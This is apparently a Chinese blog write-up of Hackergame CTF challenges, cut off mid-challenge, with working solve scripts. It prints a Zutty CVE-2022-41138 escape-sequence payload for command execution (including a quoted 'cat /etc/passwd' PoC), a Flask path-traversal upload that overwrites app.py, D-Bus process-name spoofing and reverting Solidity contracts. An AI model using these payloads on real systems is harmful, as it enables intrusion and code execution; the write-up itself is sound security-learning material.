

卧槽，甚至还有个[在线链接](https://aistudio.baidu.com/application/detail/39350)。

简单用了两下发现速度奇快，唯一的问题在于它的积分是从0到正无穷，这里做个变量代换把积分域换到0到1上即可。

于是我在这Math分类题上写了个爬虫。

代码就不贴了。

## 无法获得的秘密

是个VNC，但禁了很多操作，比如复制粘贴，对面的电脑也不能联网。

题目要求我们把`/secret`这个文件带出来，~~感觉用到职场上非常的刑~~。

这题我的做法非常蠢，现在想起来真是太有毅力了，还得是因为我忘了在防沉迷那个晚上提前下载其他题的附件，不然我绝对会再去想一想别的方法。

认真做过这题的同学，看到这里应该已经猜到了。

没错，我是用OCR做的这道题。这道题花了我大约6个小时。

---

先看了一下`/secret`这个文件，发现是个二进制文件，那么二进制文件要怎么通过手打出来呢？我想到了用`xxd`命令把它转为hex，欸🤓👆这不就是人类可读的文本了嘛。

看了一下这个`xxd`导出的文件有17万行，似乎不是特别多，我很快就写了脚本把所有内容截图出来保存在本地：


然后就是OCR了，问题上什么OCR能够胜任这个任务呢？

我在这上面尝试了非常多的各类OCR，最后跑去申请了1000次免费的百度OCR。

说实话百度OCR准确率真的非常高，高达99.999%（做完题以后得出的结论）

但因为这文件有一百万的字节，高达99.999%的准确率依然有10几个字符是识别错误的，而且大多是把9识别0这种错误。为了找这10几个字符，我写了一堆脚本用二分法做检测（即把文件二分，对比左右的hash值和服务器上的是否一致，来一步一步缩小识别错误的区间，定位到最终的那个错误字符）

但因为和VNC的交互太不顺畅了，并且还有单个session 15分钟的限制，并且还因为不够仔细出了一堆幺蛾子，最终花了6个小时把这题搞了出来。

后面想到似乎可以用二维码之类的操作，真是大腿拍断。

## 链上转账助手

这是我第一次看Hackergame的区块链题，还是因为发现前两问做的人多才看的。因为我区块链还没入门，所以我全程问GPT-4o，居然轻松的套出了前两个flag。~~等赛后一定认真研究这道题。~~

因为没啥思考过程，这里就直接贴两个payload了。

### 转账失败



```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Malicious {
    receive() external payable {
        revert("Cannot receive ETH");
    }
}
```

### 转账又失败



```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Malicious {
    receive() external payable {
        while (true) {}
    }
}
```

## 不太分布式的软总线

这一题同样是通过拷打GPT-4o出的。不过相比于前一题，需要一些理解并且思考一下提问方式。

### What DBus Gonna Do?

```c
...
gchar *input;
g_variant_get(parameters, "(&s)", &input);
if (g_strcmp0(input, "Please give me flag1") != 0) {
  return respond_error_msg(
      invocation, "Use input 'Please give me flag1' to get flag1!");
} else {
  return respond_success(invocation, flag1);
}
```

好像是通过某种方式输入一个字符串，让它等于`Please give me flag1`即可。

然而我不知道怎么和这玩意交互，就问了一下GPT，GPT也不负众望：



```bash
#!/bin/bash


gdbus call --system \
  --dest cn.edu.ustc.lug.hack.FlagService \
  --object-path /cn/edu/ustc/lug/hack/FlagService \
  --method cn.edu.ustc.lug.hack.FlagService.GetFlag1 \
  "Please give me flag1"

```

### If I Could Be A File Descriptor

```c
if (!g_variant_is_of_type(parameters, G_VARIANT_TYPE("(h)"))) {
  return respond_error_msg(invocation,
                           "Give me a file descriptor, please.");
}
gint fd_index;
g_variant_get(parameters, "(h)", &fd_index);
GUnixFDList *fd_list = g_dbus_message_get_unix_fd_list(
    g_dbus_method_invocation_get_message(invocation));
if (!fd_list) {
  return respond_error_msg(
      invocation, "I want a GUnixFDList but you don't give that to me :(");
}
gint fd = g_unix_fd_list_get(fd_list, fd_index, NULL);

// Validate the fd is NOT on filesystem
gchar path[1024];
g_snprintf(path, sizeof(path), "/proc/self/fd/%d", fd);
gchar *link = g_file_read_link(path, NULL);
if (link != NULL) {
  if (g_strstr_len(link + 1, -1, "/") != 0) {
    return respond_error_msg(
        invocation, "Please don't give me a file on disk to trick me!");
  }
} else {
  return respond_error_msg(invocation, "Readlink of given FD failed.");
}

char buffer[100];
ssize_t len = read(fd, buffer, sizeof(buffer) - 1);
close(fd);
if (len == -1) {
  return respond_error_msg(invocation,
                           "Cannot read from your file descriptor.");
} else {
  buffer[len] = 0;
}

if (g_strcmp0(buffer, "Please give me flag2\n") != 0) {
  return respond_error_msg(
      invocation,
      "Please give me file descriptor with that message to get flag!");
} else {
  return respond_success(invocation, flag2);
}
```

这一小题则似乎是需要传入一个文件描述符，还不能指向文件系统上的文件，然后让这个文件描述符打开后读取的内容是`Please give me flag2\n`

不知道为啥，没能完全从GPT口中套出答案：



不过根据服务器给的报错内容，这个版本已非常接近最终的答案了，我自己尝试着魔改了一下，得到了下面的脚本可以拿到flag2：

```bash
#!/bin/bash


{
    echo -ne "Please give me flag2\n"
} | {
    gdbus call --system \
      --dest cn.edu.ustc.lug.hack.FlagService \
      --object-path /cn/edu/ustc/lug/hack/FlagService \
      --method cn.edu.ustc.lug.hack.FlagService.GetFlag2 0
}

```

### Comm Say Maybe

```c
const gchar *caller_name = g_dbus_method_invocation_get_sender(invocation);
GError *error = NULL;
GVariant *result = g_dbus_connection_call_sync(
    connection, "org.freedesktop.DBus", "/org/freedesktop/DBus",
    "org.freedesktop.DBus", "GetConnectionUnixProcessID",
    g_variant_new("(s)", caller_name), G_VARIANT_TYPE("(u)"),
    G_DBUS_CALL_FLAGS_NONE, -1, NULL, &error);
if (result == NULL) {
  return respond_error(invocation, error);
}
guint32 pid;
g_variant_get(result, "(u)", &pid);
g_variant_unref(result);

char path[1024];
g_snprintf(path, sizeof(path), "/proc/%d/comm", pid);
gchar *comm;
gsize len;
if (g_file_get_contents(path, &comm, &len, &error)) {
  if (g_strcmp0(comm, "getflag3\n") != 0) {
    return respond_error_msg(invocation,
                             "You shall use getflag3 to call me!");
  } else {
    return respond_success(invocation, flag3);
  }
} else {
  return respond_error(invocation, error);
}
```

这一问反而比较容易理解，是需要用一个名叫`getflag3`的进程去与服务交互，才能拿到flag3。

一开始也尝试了各种`bash`脚本，试图伪造进程名（我也不知道能不能伪造），但始终不行，最后突然发现，附件里竟然有个`getflag3.c`？

```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <gio/gio.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <unistd.h>

#define DEST "cn.edu.ustc.lug.hack.FlagService"
#define OBJECT_PATH "/cn/edu/ustc/lug/hack/FlagService"
#define METHOD "GetFlag3"
#define INTERFACE "cn.edu.ustc.lug.hack.FlagService"

int main() {
  GError *error = NULL;
  GDBusConnection *connection;
  GVariant *result;

  connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
  if (!connection) {
    g_printerr("Failed to connect to the system bus: %s\n", error->message);
    g_error_free(error);
    return EXIT_FAILURE;
  }

  // Call the D-Bus method
  result = g_dbus_connection_call_sync(connection,
                                       DEST,        // destination
                                       OBJECT_PATH, // object path
                                       INTERFACE,   // interface name
                                       METHOD,      // method
                                       NULL,        // parameters
                                       NULL,        // expected return type
                                       G_DBUS_CALL_FLAGS_NONE,
                                       -1, // timeout (use default)
                                       NULL, &error);

  if (result) {
    g_print("Get result but I won't show you :)\n");
    g_variant_unref(result);
  } else {
    g_printerr("Error calling D-Bus method %s: %s\n", METHOD, error->message);
    g_error_free(error);
  }

  g_object_unref(connection);

  return EXIT_SUCCESS;
}

```

看来服务器上应该也有这么个可执行文件放在那里，不过显然，直接用`bash`去调用它，会得到`Get result but I won't show you :)`

不过这源代码都给了，我不是可以直接抄下来魔改一下？把`if (result) {`这部分代码修改为下面这样：

```c
if (result) {
    gchar *response;
    g_variant_get(result, "(s)", &response);
    g_print("flag3: %s\n", response);
    g_variant_unref(result);
}
```

但要怎么伪装进程名呢？问了下GPT发现可以用`prctl`



不过这里它多给了一个换行符，手动把它去掉即可。最终的代码：

```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <gio/gio.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <unistd.h>
#include <sys/prctl.h>

#define DEST "cn.edu.ustc.lug.hack.FlagService"
#define OBJECT_PATH "/cn/edu/ustc/lug/hack/FlagService"
#define METHOD "GetFlag3"
#define INTERFACE "cn.edu.ustc.lug.hack.FlagService"

int main() {
    GError *error = NULL;
    GDBusConnection *connection;
    GVariant *result;

    prctl(PR_SET_NAME, "getflag3", 0, 0, 0);

    connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
    if (!connection) {
        g_printerr("Failed to connect to the system bus: %s\n", error->message);
        g_error_free(error);
        return EXIT_FAILURE;
    }

    result = g_dbus_connection_call_sync(connection,
                                         DEST,
                                         OBJECT_PATH,
                                         INTERFACE,
                                         METHOD,
                                         NULL,
                                         NULL,
                                         G_DBUS_CALL_FLAGS_NONE,
                                         -1,
                                         NULL, &error);

    if (result) {
        gchar *response;
        g_variant_get(result, "(s)", &response);
        g_print("flag3: %s\n", response);
        g_variant_unref(result);
    } else {
        g_printerr("Error calling D-Bus method %s: %s\n", METHOD, error->message);
        g_error_free(error);
    }

    g_object_unref(connection);

    return EXIT_SUCCESS;
}

```

## 动画分享

这道题是我觉得最有意思的题之一 ~~（别的大佬觉得有意思的题我不会）~~ 这也是我第一次利用现查的CVE去解题。

### 只要不停下 HTTP 服务，响应就会不断延伸

我们看到服务端的源代码：

```rust
use std::fs;
use std::io::{Read, Write};
use std::net::{TcpListener, TcpStream};
use std::path::Path;

fn main() -> std::io::Result<()> {
    let address = "127.0.0.1:8000";
    let listener = TcpListener::bind(address)?;

    println!("Serving HTTP on {}", address);

    for stream in listener.incoming() {
        match stream {
            Ok(stream) => {
                handle_connection(stream);
            }
            Err(e) => {
                eprintln!("Connection failed: {}", e);
            }
        }
    }

    Ok(())
}

fn handle_connection(mut stream: TcpStream) {
    let mut buffer = [0; 1024];
    match stream.read(&mut buffer) {
        Ok(_) => {
            let request = String::from_utf8_lossy(&buffer[..]);

            println!("Received request: {}", request.lines().next().unwrap_or(""));
...
```

看到这里就够了！后面的代码就是很常规的处理HTTP请求。

为什么会注意到这个`println!`函数呢？这还得感谢出题人在题目中的暗示：**几年前编译的某~~祖传~~终端模拟器**。

我在注意到这条暗示之前，尝试了很多其他的方法，例如想通过同时发起一大堆HTTP请求把服务器搞崩之类的，不过统统不奏效。后面才看到了这个暗示，于是我看了一下附件给的其他文件，比如下面这个`Dockerfile`：

```dockerfile
# Uncomment "RUN echo"s, then do this locally for testing:
# docker build -t local/anime .
# cat <YOUR_PAYLOAD> | base64 --wrap=0 | docker run --rm --tmpfs /dev/shm:exec --tmpfs /tmp -i local/anime
FROM ustclug/debian:bullseye AS builder

RUN apt update && apt install -y git build-essential python3-dev pkg-config libfreetype-dev libxmu-dev libgles2-mesa-dev && \
    git clone https://git.hq.sig7.se/zutty.git && cd zutty && git checkout 0.12 && \
    ./waf configure && ./waf

FROM ustclug/debian:bullseye
RUN apt update && apt install -y python3 xvfb libfreetype6 libxmu6 libgles2-mesa libegl1 netcat-openbsd curl
COPY --from=builder /zutty/build/src/zutty /usr/local/bin/zutty
# Start it once to create shader cache
RUN timeout -s 9 5 xvfb-run /usr/local/bin/zutty || true
COPY src/fileserver /usr/local/bin/fileserver

# Start fileserver automatically in zutty :)
RUN echo "cd /root/chroot/ && chroot /root/chroot/ fileserver" > /root/.bashrc && \
    mkdir /root/chroot && cp -r /lib* /root/chroot/ && mkdir -p /root/chroot/usr/ /root/chroot/usr/bin/ /root/chroot/usr/local/bin/ && \
    cp -r /usr/lib* /root/chroot/usr/ && cp -r /usr/bin/* /root/chroot/usr/bin/ && cp -r /usr/local/bin/* /root/chroot/usr/local/bin/
COPY src/ /src/

# Note that you cannot just "cat /flag1" directly on server :)
# RUN echo "Submit your program to get real flag1 on server!" > /flag1 && \
#     echo "Submit your program to get real flag2 on server!" > /flag2

CMD ["python3", "-u", "/src/server.py"]

```

注意到题目里说的终端模拟器是指`zutty`，版本为`0.12`，立刻去查相关的CVE，查到了[这个链接](https://nvd.nist.gov/vuln/detail/CVE-2022-41138)。

> In Zutty before 0.13, DECRQSS in text written to the terminal can achieve arbitrary code execution.

是说如果我们能任意控制打印到`zutty`终端上的内容的话，就可以通过一个叫`DECRQSS`的东西执行任意命令。而这东西是个啥呢？查了一下发现还挺复杂，不过好在刚刚那个网页给了一个有用的[链接](https://bugs.gentoo.org/868495)，这个链接则给了一个利用此CVE的payload，以及`zutty`修复这个CVE的patch：



这个`poc.txt`的内容如下：

```python
with open('poc.txt', 'rb') as f:
    print(f.read())
    
b'\x1bP$q\ncat /etc/passwd\n\x1b\\\n'
```

也就是说我们可以试图去构造类似于这种样子的payload，让服务端打印出这样的东西，就能执行一些命令了。

搞懂了这些以后，就知道我们需要注意服务端源代码的这一行：

```rust
println!("Received request: {}", request.lines().next().unwrap_or(""));
```

它会把我们发起的请求的第一行打到屏幕上，注意是**第一行**，这也意味着，如果按前面的payload那样在中间插入一些换行符`\n`，就达不到同样的效果，好在我们还可以用`\r`代替`\n`，所以我们可以把payload改成：

```raw
b'\x1bP$q\r???\r\x1b\\\n'
```

不过`???`处要填什么东西可以让服务退出呢？我一开始一直在想有什么让服务退出的命令，结果发过去发现一个都不能运行起来。后来才意识到，文件服务阻塞了终端，你命令能运行就怪了。

然后我想到平时我们自己在终端上让服务停下来，好像一般都是按<kbd>Ctrl</kbd> + <kbd>C</kbd>。查了一下发现这个组合键其实是向终端发送了一个`\x03`。

于是：

```raw
b'\x1bP$q\r\x03\r\x1b\\\n'
```

这样就可以拿到flag1了。

最终的解题代码：

```python
#!/usr/bin/env python3

import socket

payload = b'\x1bP$q\r\x03\r\x1b\\'

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect(('127.0.0.1', 8000))
    s.sendall(payload)

```

### 希望的终端模拟器，连接着我们的羁绊

这一问，我们需要拿到位于服务器根目录的flag2。

很自然想法是，我们现在相当于可以在终端上执行任意命令了，只是看不到终端的输出内容。

```raw
b'\x1bP$q\r\x03\r???\r\x1b\\\n'
```

在`???`处插入任意的命令，应该都可以执行，并且不存在`chroot`限制。

一开始的想法是，我通过一个操作把`/flag2`搬到当前目录，然后重新把`fileserver`启动起来，再向`flieserver`发起一个`GET /flag2`，就行了。结果试了好久才发现这个当前目录居然是只读的。于是这道题卡了小半天。

到了晚上突然想起，我为什么非得用他提供的文件服务呢？我不是还有`Python`？

于是写出下面payload：

```raw
b'\x1bP$q\r\x03\rpython3 -m http.server 8080 --directory /\r\x1b\\',
```

这样就可以把他的服务干掉以后开一个`Python`的文件服务器，而且可以指定根目录为当前目录。

最终的脚本如下：

```python
#!/usr/bin/env python3

import socket
import time
import re

payloads = [
    b'\x1bP$q\r\x03\rpython3 -m http.server 8080 --directory /\r\x1b\\',
    b'GET /flag2\r\n\r\n'
]


def request(port, payload):
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect(('127.0.0.1', port))
        s.sendall(payload)
        response = b""
        while 1:
            data = s.recv(4096)
            if not data:
                break
            response += data
        return response.decode()


request(8000, payloads[0])
time.sleep(0.5)
flag2 = request(8080, payloads[1])
print(re.search(r'flag\{.*}', flag2).group())

```

使用此脚本可以一次拿俩flag。

## 关灯

### Easy & Medium & Hard

前三问送分，直接用`z3`：

[解题代码](https://gist.github.com/windshadow233/55180c5e648be86f5ffcb950968e6f24)

第四问复杂度炸了，估计得用什么方法优化，没怎么研究。

## 禁止内卷

不知道为啥这题一开始做的人那么少，害得我一直没去看。后来看了一眼，发现极其送分，从开始看源代码到拿到flag，应该不超过10分钟。

源代码如下：

```python
from flask import Flask, render_template, request, flash, redirect, jsonify
import json
import os
import traceback
import secrets

app = Flask(__name__)
app.secret_key = secrets.token_urlsafe(64)

UPLOAD_DIR = "/tmp/uploads"

os.makedirs(UPLOAD_DIR, exist_ok=True)

# results is a list
try:
    with open("results.json") as f:
        results = json.load(f)
except FileNotFoundError:
    results = []
    with open("results.json", "w") as f:
        json.dump(results, f)


def get_answer():
    # scoring with answer
    # I could change answers anytime so let's just load it every time
    with open("answers.json") as f:
        answers = json.load(f)
        # sanitize answer
        for idx, i in enumerate(answers):
            if i < 0:
                answers[idx] = 0
    return answers


@app.route("/", methods=["GET"])
def index():
    return render_template("index.html", results=sorted((results))


@app.route("/submit", methods=["POST"])
def submit():
    if "file" not in request.files or request.files['file'].filename == "":
        flash("你忘了上传文件")
        return redirect("/")
    file = request.files['file']
    filename = file.filename
    filepath = os.path.join(UPLOAD_DIR, filename)
    file.save(filepath)

    answers = get_answer()
    try:
        with open(filepath) as f:
            user = json.load(f)
    except json.decoder.JSONDecodeError:
        flash("你提交的好像不是 JSON")
        return redirect("/")
    try:
        score = 0
        for idx, i in enumerate(answers):
            score += (i - user[idx]) * (i - user[idx])
    except:
        flash("分数计算出现错误")
        traceback.print_exc()
        return redirect("/")
    # ok, update results
    results.append(score)
    with open("results.json", "w") as f:
        json.dump(results, f)
    flash(f"评测成功，你的平方差为 {score}")
    return redirect("/")
```

花里胡哨的算分功能，根本不用看，只要意识到在`/submit`接口有一个路径穿越漏洞就行了，因为它是用`os.path.join`来拼接路径的，所以我们就可以上传一个文件名类似于`../../balabala`这种，我们就基本可以想上传到哪就上传到哪。

注意到题目告诉了我们：网站代码运行在 `/tmp/web`，而且他甚至还开了`--reload`。既然网站是用`flask`写的，那我盲猜一波主文件在`/tmp/web/app.py`，而我们上传的路径在`/tmp/uploads`，所以我们直接上传一个文件`../web/app.py`，这个操作则可以用`requests`实现：

```python
import requests

url = 'https://chal02-drfrs8jw.hack-challenge.lug.ustc.edu.cn:8443/'
file = 'backend.py'

with open(file, 'rb') as f:
    files = {'file': ('../web/app.py', f)}
    response = requests.post(url + 'submit', files=files)

```

而`backend.py`文件中，我们就可以去写拿flag的逻辑了，比如把index路径的请求改了：

```python
@app.route("/", methods=["GET"])
def index():
    with open("answers.json") as f:
        answers = json.load(f)[:100]
    ascii_answers = ''.join(chr(num + 65) for num in answers if isinstance(num, int))
    return ascii_answers
    # return render_template("index.html", results=sorted(results))
```

这样访问网站根路径就可以直接拿到flag。

## 哈希三碰撞

### 三碰撞之一

最后一个比赛日的晚上，看这题做的人比较多，我也来试试吧！

用ida打开此题的文件：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int i; // [rsp+8h] [rbp-F8h]
